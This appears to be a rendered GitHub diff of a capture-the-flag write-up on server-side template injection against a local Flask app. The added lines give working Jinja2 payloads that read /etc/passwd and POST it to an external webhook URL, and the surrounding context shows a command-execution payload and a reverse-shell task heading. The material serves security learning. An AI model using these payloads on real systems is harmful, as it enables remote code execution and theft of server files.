

Before and after one commit to poorvi1910/Web, a Markdown page: challenges/SSTI_payload_creation_chall.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/challenges/SSTI_payload_creation_chall.md
+++ b/challenges/SSTI_payload_creation_chall.md
@@ -97,6 +97,16 @@ http://127.0.0.1:5000/?c={{().__class__.__mro__[1].__subclasses__()[568](%27cat%
 ![image](https://github.com/poorvi1910/Web/assets/146640913/a516db8b-213f-4e58-8650-585cac3a95de)
 
 - ##  Send the contents of etc pass to  awebhook
+http://127.0.0.1:5000/?c={{ config.__class__.from_envvar["__globals__"]["__builtins__"]["__import__"]('requests')['post']['__call__']
 
+To read file : ```request.__class__.__init__.__globals__.__builtins__.open.__call__("/etc/passwd").read()```
+
+Final result : ```<Response [200]>```
+
+PAYLOAD:
+```
+http://127.0.0.1:5000/?c={{ config.__class__.from_envvar["__globals__"]["__builtins__"]["__import__"]('requests')['post']['__call__']('https://webhook-test.com/862d0fdb235354934d78409cb297c53c', data={'file': request.__class__.__init__.__globals__.__builtins__.open.__call__("/etc/passwd").read()}) }}
+```
+![image](https://github.com/poorvi1910/Web/assets/146640913/65bde4dc-928b-423c-9fc8-48ca1d5ecbe1)
 
 - ##  Create a reverse shell, save your work and run the command yes on the rev shell
````
